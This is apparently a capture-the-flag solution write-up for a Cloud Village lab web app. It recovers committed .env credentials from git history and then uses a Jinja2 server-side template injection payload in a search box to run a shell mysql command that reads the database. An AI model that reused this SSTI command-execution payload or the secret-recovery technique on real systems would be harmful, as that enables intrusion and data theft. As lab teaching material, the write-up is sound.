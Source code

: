 ## Solution

### Fork this Repo



```sh
$ git log
commit 974b2e09b19325bde3c35a058f4d537f3f4d848d (HEAD -> master)
Author: Cloud Village <dev@cloud-village.org>
Date:   Mon Mar 25 00:39:54 2024 +0000

    whoops, remove prod credentials

commit 967428759931756b7d7934489d10c93901c8304d (origin/master, origin/HEAD)
Author: Cloud Village <dev@cloud-village.org>
Date:   Sat Mar 23 13:53:13 2024 -0700

    init commit
```

So you can rollback to the first commit that has the checked in credentials that you can use to login to the webapp, as well as the database.
```sh
$ git reset --hard HEAD^
HEAD is now at 09d2695 init commit
$ cat .env
SECRET_KEY=secretkey
DATABASE_PATH=mariadb+pymysql://groot:1crispy2potatos3are4delicious!@127.0.0.1/crispy_potato?charset=utf8mb4
SCRIPT_NAME=/crispy_potato
INIT_USERNAME=CloudVillageCrispyPotatoAdmin
INIT_PASSWORD=000loud1111Village^Crispy?Potato2222Password98765
```

On the site, you can use SSTI in the search box to expose the flag. Here's one string you could provide to it.

```jinja2
{{request.application.__globals__.__builtins__.__import__('os').popen('mysql -h 127.0.0.1 -ugroot -p1crispy2potatos3are4delicious! crispy_potato -e "SELECT title FROM recipes;"').read()}}
```

![Screenshot](screenshot.png)
